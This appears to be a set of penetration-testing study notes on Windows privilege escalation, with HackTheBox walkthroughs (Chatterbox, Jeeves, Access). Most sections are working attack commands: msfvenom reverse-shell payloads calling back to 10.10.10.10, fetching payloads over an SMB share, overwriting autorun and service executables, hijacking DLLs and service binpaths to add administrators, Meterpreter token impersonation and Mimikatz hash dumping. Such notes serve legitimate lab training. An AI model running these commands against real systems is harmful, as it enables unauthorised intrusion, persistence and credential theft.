










# Windows Privelege Escalation

## 1. System Enumeration
- `systeminfo` for getting details of the system.
	- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` to get filter information just like `grep` in linux.
- `wmic qfe` to find its patched.
	- `wmic qfe get Caption,Description,HotFixID,InstalledOn` to get only columns needed.
- `wmic logicaldisk` to list drives
	- `wmic logicaldisk get caption,description,providername` to get only columns needed.
	- `wmic logicaldisk get caption` to only get drive caption

## 2. User enumeration
- `whoami` to see who we are.
	- `whoami /priv` to check our privileges.
	- `whoami /groups` to check the groups we are involved in.
- `net user` to list the users in the system.
	- `net user [username]` to see information about a specific group. 
- `net localgroup`
	- `net localgroup administrators` to see who is part of that group.

## 3. Network Enumeration
- `ipconfig` to see what is the IP address of the machine.
	- `ipconfig /all` to see more information
- `arp -a` to see arp table.
	- If any IP is found should be investigated and find how it connecting to the system.
- `route print` to see route table.
- `netstat -ano` to see what port is out there.

## 4. Password Hunting
- `findstr /si password *.txt *.ini *.config`
	- Maybe user have put the passwords in clear text or in registry. The above will command will parse for "password" in txt,.ini,.config files in the directory.
	- We can even search for WiFi Passwords because user can reuse the same password.
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

## 5. AV and Firewall Enumeration
- `sc query windefend` - `sc` for service control. This command will show information of windows defender.
- `sc queryex type= service` to check all services running and see what we are up against. Like is there any antivirus etc.
- `netsh advfirewall firewall dump` newer command
- `netsh firewall show state` older command
- `netsh firwall show config` to see if any ports are open to this machine and any configs.

windows PrivEsc Checklist (https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## 6. Automated Enumeration Tools
- Executables
	- winPEAS.exe (https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
		- check winPEAS.bat if .exe doesn't work
	- Seatbelt.exe (compile) (https://github.com/GhostPack/Seatbelt)
	- Watson.exe (compile) (https://github.com/rasta-mouse/Watson)
	- SharpUp.exe (compile) (https://github.com/GhostPack/SharpUp)
- PowerShell
	- Sherlock.ps1 (https://github.com/rasta-mouse/Sherlock)
	- PowerUp.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
	- jaws-enum.ps1 (https://github.com/411Hall/JAWS)
- Other
	- windows-exploit-suggester.py (local) (https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
	- Exploit Suggester (Metasploit) (https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)

## 7. Kernel Exploits

**Kernel**: Facilitates hardware and software components.

Windows Kernel Exploits: https://github.com/SecWiki/windows-kernel-exploits

## 8. Escalation with Metasploit
- In meterpreter shell `run post/multi/recon/local_exploit_suggester`
- background the meterpreter session
- `use [exploit_path]`
- `set options`
- `run`

## 9. Manual Escalation
- Run windows exploit suggester
- check for exploits that can be done from the shell. For example exploits needed gui interface to spawn shell etc.
- Enumerate and find services. Look for any vulnerabilities found with exploitdb or anything.

***
## 10. Password and Port Forwarding (chatterbox HTB)
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
1. Run nmap and found achat vulberability
2. Found exploit in exploitdb
3. The exploit is to run calculator change it for reverse shell.
4. Run the exploit and we have shell.
5. While enumerating windows we found password from registry. Which belong to alfred the user.
6. This can be same username for administrator as well.
7. There is smb service running locally.
8. Edit `/etc/ssh/sshd_config` and change `PermitRootLogin yes` then save and `ssh restart`
9. Use plink.exe for port forwarding and then login as administartor. `winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"`
***
## 11. Windows subsystem for Linux
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl
1. Get the low-priv shell using anyway like impacket anything.
2. Find bash.exe and wsl.exe
	- `where /R c:\windows bash.exe`
	- `where /R c:\windows wsl.exe`
3. `[path]\wsl.exe whoami` to see are we root.
4. `[path]\bash.exe` to start wsl subsystem for linux.
5. Enumerate linux.
6. Check history etc for password.
7. Login to Windows as administrator.

## 12. Token Impersonation

Tokens are temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

There are two type:
- Delegate - Created for logging into a machine or using Remote Desktop.
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script.

**Scenario**: We are normal user. And we try to use mimikatz to dump all hashes from domain controller. But we get error because we are not a domain controller user. But if we have token of administrator we can impersonate that.
In metasploit we can use command `list_tokens -u` to list available tokens and  `impersonate_token MARBEL\\administrator` to exploit. Then we can use mimikatz we can dump all hashes including kerberos which we can use for golden tickets.

### 12.1 Impersonation Privileages

`whoami /priv` in shell 

`getprivs` in metasploit.

https://github.com/gtworek/Priv2Admin

### 12.2 Potato Attacks

https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

Juicy Potato: https://github.com/ohpe/juicy-potato

#### Example (Jeeves HTB)
**Gaining foothold:**
1. Run nmap
2. We have port 80,135,445,50000 open
3. In in port 80 we get error when we searched. Its an image.
4. Run dirbuster in 80 and 50000
5. We found [ip]:50000/askjeeves/ page.
6. We got a page to jenkins server.
7. Go to manage console and go to script console.
8. It runs in groovy.
9. Get a groovy reverse shell: https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
10. Then start nc listener and we run the script we have the shell.

**Enumeration:**
1. `whoami`
2. `whoami /priv` 

3.  We can run `sysinfo` and copy results to kali and run windows_exploit_suggester.py. We can see vulnerabilities.
4.  We can transfer shell to metasploit with `multi/script/web_delivery`

5. Copy paste ps command in previous shell and it will execute and we have meterpreter shell.
6. Run `getuid`, `sysinfo`, `getprivs`
7. We can `run post/multi/recon/local_exploit_suggester`

**Escalation via Potato Attacks:**
1. `background` for backgrounding meterpreter shell.
2. `use exploit/windows/local/ms16_075_reflection`
3. 
4. `load incognito`
5. `list_tokens -u` and copy "NT AUTHORITY\SYSTEM"
6. `impersonate_token "NT AUTHORITY\SYSTEM"`

### 12.3 Alternate Data Streams
`dir /R`

Alternative Data Stream: https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/

## 13. getsystem
In metasploit meterpreter run `getsystem` it will try to escalate privileges.

getsystem explanation: https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

## 14. Runas

### Example (Access HTB):
 `cmdkey /list` will look for stored credentials in the system. Or we can use WinPeas etc.

**Gaining Foothold:**
1. Run nmap there is three ports: 21,23,80
2. Check page and page source whether anything is there.
3. Go to ftp and check whether there is any anonymous login. 
4. Run command `binary`  as its more stable than ascii for transfer of file.
5. Download files from backup and engineer directory.
6. In zip file there .pst file. open the file in windows.
7. There is auth table  in backup.mdb file that we got from ftp and we got some credentials.
8. We can read mdb file in linux with `mdb-sql backup.mdb` and to read pst file `readpst [pst_file]`
9. Tried to telnet but didn't work.
10. unzip file withe credetial found. When read the pst file we are able to get another credential with username "security".
11. Now we can telnet with the credentials.

**Escalation via Runas:**
1. `cmdkey /:os`
2. `cmdkey /list`
3. `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`

## 15. Registry

### 15.1 Registry Escalation - Autorun
1. `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` for  query the registry for AutoRun executables. Also we can use "autorun64.exe" by sysinternals too.
2. `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
"accesschk.exe" is another tool by sysinternals.
	1.	`-w` for only show items that are writable.
	2.	`-v` for verbosity
	3.	`-u` don't show errors

3. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe` for gerating payload.
4. `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .` 
`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe` for copying the reverse shell on windows.
5. `copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y` here is reverse.exe is a malicious file which is replaced for program.exe. So when next time if an admin logins our malicious file will get executed.

Another method is...
1. Open command terminal in PowerUp tool folder. 
2. `powershell -ep bypass`
3. `. .\PowerUp.ps1`
4. `Invoke-AllChecks` it will look for different checks.
5. When scroll it will identify run program.exe. 
6. Then continue from step 3-5 as shown above.

### 15.2 AlwaysInstalledElevated
1. `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
 
2. `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

3. If we run PowerUp we need to check for "Write-UserAddMSI"
	1. Open command terminal in PowerUp tool folder. 
	2. `powershell -ep bypass`
	3. `. .\PowerUp.ps1`
	4. `Invoke-AllChecks` it will look for different checks.
	5. look for "Write-UserAddMSI"
	6. Run `Write-UserAddMSI` it will install malicious application.
	7. Go to Powerup folder and double click UserAdd then we can add username, password, group everything.
	8. Run `net local group administrator`
4. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi` and transfer this file to windows and run it while we listen with metasploit.
5. If we already have meterpreter shell we can use background the session and use the exploit with `use exploit/windows/local/always_install_elevated`

### 15.3 regsvc ACL (registry service)

1. `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl` if we have full control of the registry then we can create C file to run a file for example `cmd.exe /k net localgroup administrators user /add`

2. `python -m pyftpdlib -p 21 --write` for starting ftp server
3. Copy "windows_service.c" to kali.
4. edit whoami with `cmd.exe /k net localgroup administrators user /add`
5. Compile the C file to x,exe.
6. Copy the file temp folder in windows.
7. In cmd `reg add HKLM\SYSTEM\CurrentControlSet\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
8. `sc start refsvc`
9. `net localgroup administrators` to confirm.

## 16. Executable File running as a Service
1.  `powershell -ep bypass`
2. `. .\PowerUp.ps1`
3. `Invoke-AllChecks` it will look for different checks.
4. Or we can do command 
	1.	`sc qc filepermsvc` query "filepermsvc"
	2.	`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"` but here we need to know the location of the .exe file.
5.	PowerUp will show this more detailed.
6.	`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
7.	`net start filepermsvc`

## 17. Startup Application
1. `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` So if we get "BUILTIN\Users:(F)" That means we have full access.
2. Create a payload and drop the payload in "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" and start a listner in Kali.
3. When administrator login we have  a shell.

## 18. DLL Hijacking
When windows boot up it will look for dll files. If dll files doesn't exist and that path is writable we can get malicious.

1. Run process monitor as administrator.
2. In filter. Add filter "Result,is,NAME NOT FOUND then Include"

3. It will run for events and we can see dll files that are not found. If the path is writable we can hijack it.
4. We can go path in many paths.
5. For this you can copy windows_dll.c from tools>source to kali.
6. Edit the file.

7. `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
8.  Or we can create payload and replacing etc.

## 19. Binary path or bin path
1.  `powershell -ep bypass`
2. `. .\PowerUp.ps1`
3. `Invoke-AllChecks` it will look for different checks.
4. Or we do:
	1. `accesschk64.exe -uwcv Everyone *`
		1. `-u` for no error
		2. `-w` for writable
		3. `-c` for showing the service name
		4. `-v` for verbose
	2. `accesschk64.exe -uwcv daclsvc` where "daclsvc" is something we found.
	3. `sc qc daclsvc` then we could see binary path.
	4. We can change config of this path by `sc config daclsvc binpath="net localgroup administrators user /add"`
	5. `sc start daclsvc`
	
## 20. Unquoted Service Path
If the path is not quoted and if are trying to run "C:\Program FIles\Test\test.exe"
It will try to run the test.exe starting from C:\ till it find test.exe.
1.  `powershell -ep bypass`
2. `. .\PowerUp.ps1`
3. `Invoke-AllChecks` it will look for different checks.
4.  Then we can find unquoted service path.
5.  Generate a payload in the same name for example Test.exe or Program.exe.
6.  Start a listner in Kali.
7.  Put in the path of the unqouted service.
8.  `sc start [servicename]`
